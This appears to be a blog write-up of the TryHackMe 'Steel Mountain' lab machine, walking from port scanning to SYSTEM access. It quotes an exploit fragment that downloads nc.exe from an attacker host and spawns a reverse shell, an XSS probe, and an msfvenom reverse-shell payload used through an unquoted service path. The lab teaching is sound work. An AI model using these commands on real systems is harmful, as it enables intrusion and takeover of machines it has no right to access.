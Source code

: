```yaml
---
title: Steel Mountain
date: 2024-02-13 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Steel Mountain is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with setting up and running a couple of exploits. After you find the vulnerable services, the exploits and path to foothold and privilege escalation are straightforward. 

## Nmap Scan
* nmap -T4 -p- `target ip`
    * PORT      STATE SERVICE
    * 80/tcp    open  http
    * 135/tcp   open  msrpc
    * 139/tcp   open  netbios-ssn
    * 445/tcp   open  microsoft-ds
    * 3389/tcp  open  ms-wbt-server
    * 5985/tcp  open  wsman
    * 8080/tcp  open  http-proxy
    * 47001/tcp open  winrm
    * 49152/tcp open  unknown
    * 49153/tcp open  unknown
    * 49154/tcp open  unknown
    * 49155/tcp open  unknown
    * 49156/tcp open  unknown
    * 49169/tcp open  unknown
    * 49170/tcp open  unknown
* nmap -T4 -sV -A -p 135,139,445,3389,8080 `target ip`
    * 135/tcp  open  msrpc        Microsoft Windows RPC
    * 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    * 445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    * 3389/tcp open  ssl          Microsoft SChannel TLS
    * 5985/tcp  filtered wsman
    * 47001/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    * 8080/tcp open http HttpFileServer httpd 2.3
[Rejetto HFS](https://www.rejetto.com/hfs/)

Most of the ports open aren't terrible helpful to use, the unknowns we can ignore here. The most interesting are typically the smb and http services. Checking out the smb services didn't get me anywhere at all, as there doesn't seem to be any access open over smb from what I could find. 

## Checking out the Site
We did find a login page on the site. There doesn't seem to be much we can do here without credentials:
* http://10.10.243.11:8080/~login
* Tried the standard admin:admin, didn't work. 

## Enumerating the Web Site
Nikto Scan
> nikto -h http://10.10.243.11:8080
>> `OSVDB-38019: /?mod=<script>alert(document.cookie)</script>&op=browse: Sage 1.0b3 is vulnerable to Cross Site Scripting (XSS).`

Dirbuster
> dirbuster dir -u http://10.10.243.11:8080/ -w /usr/share/wordlists/dirb/common.txt 
>> No interesting directories found on the site.

## Vulnerable Service
We do see this is Rejetto HttpFileServer 2.3 version. This has a vulnerability that exists both in `Metasploit` and a public python script. We can use searchsploit to find the public exploit: "searchsploit Rejetto 2.3"
* More than one file may come up in your search, and I actually found a different script by mistake at first: `49125.py`
* Took some attempts for me to figure out this is the wrong exploit, and instead the target public exploit is: `39161.py`
    * #EDB Note: You need to be using a web server hosting netcat (`http://<attackers_ip>:80/nc.exe`).

Decoding some of the script, we can easily understand the intent: 
```java
ip_addr = "attacker ip" #local IP address
local_port = "listening port" # Local Port number

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with

vbs2 = cscript.exe C:\Users\Public\script.vbs
vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
```
After URL Decoding the portions of the script that are encoded, we can see this script intends to utilize vbs script creation in order to reach back to our attacker machine, grab netcat, and then use netcat to reach back to our attacker IP and Port that is stagged on our end with netcat. 

> If we have our listener stagged properly on our attacker box with netcat, we will get a connection back to our attacker machine. 

> Success! We are on the machine as the user bill, and can grab user.txt. Now we need to enumerate the box to find our privilege escalation path. 

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnuser.png?raw=true)

## Local Enumeration
After doing a file transfer with powershell, we let the x86 version of winpeas run to see what vulnerabilities exist, and take a look through to see what stands out the most. We want to find the low hanging fruit. 

* Basic enumeration items we find:
    * This is a Windows Sever 2012 R2 Data Center
    * Build number 9600
    * All Access to some Named Pipes, with one that has WriteData/Create File access
    * 3 users, Administrator, Guest, and Bill; Guest is disabled
    * There is a Public directory, and we have write/create file access there
    * No interesting files for us, we picked up our nc.exe and the hfs.exe files

Services that are non-microsoft, seems to be:
- Advanced System Care; AdvancedSystemCareService9.
- Amazon Agent.
- IEETwCollectorService.
- IObitUnSvr; no quotes and space detected.
- LiveUpdateSvc; no quotes and space detected.
- Can modify installed programs, seems to be related to those IOBit pua’s.

>Looks like we can write and create files inside of windows tasks and system32 tasks.
>> Found Bills password: PMBAf5KhZAxVhvqb
>>> Ntlmv2 hash was found, not super useful in this context as we aren't looking to pivot from this box.

At this point, the unquoted service path vulnerability seems to be the best choice to try. We need to craft a reverse shell payload to replace a process in one of the file path's are has a space, and that didn't have quotes around it. 

## Crafting our payload
Since `Advanced System Care` didn't have quotes, we throw a reverse shell into this file path as `Advanced.exe`. After we move the file into the path, we need to then stop and start the service that runs the files out of that path, which is service `AdvancedSystemCareService9`.

> Craft payload with `msfvenom`:
>> msfvenom -p windows/shell_reverse_tcp LHOST=`<ip>` LPORT=`4545` -f exe > Advanced.exe

We transfer the payload over, put it in the correct path, and use sc start/stop to stop and start the service. Once this is done, we get our shell back, and are now `NT Authority\System`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnroot.png?raw=true)
